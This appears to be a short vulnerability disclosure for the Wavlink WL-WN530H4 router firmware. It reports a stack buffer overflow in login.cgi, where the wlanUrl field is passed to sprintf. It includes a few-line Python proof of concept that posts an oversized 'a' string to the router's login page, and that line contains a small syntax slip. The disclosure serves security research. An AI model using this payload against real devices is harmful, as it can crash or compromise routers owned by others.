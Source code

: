 # buff overflow

## WAVLINK_WL_WN530H4

version: 20220801

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : [WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)

## Analyse:

![](7.png)

get value from wlanUrl,then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
```
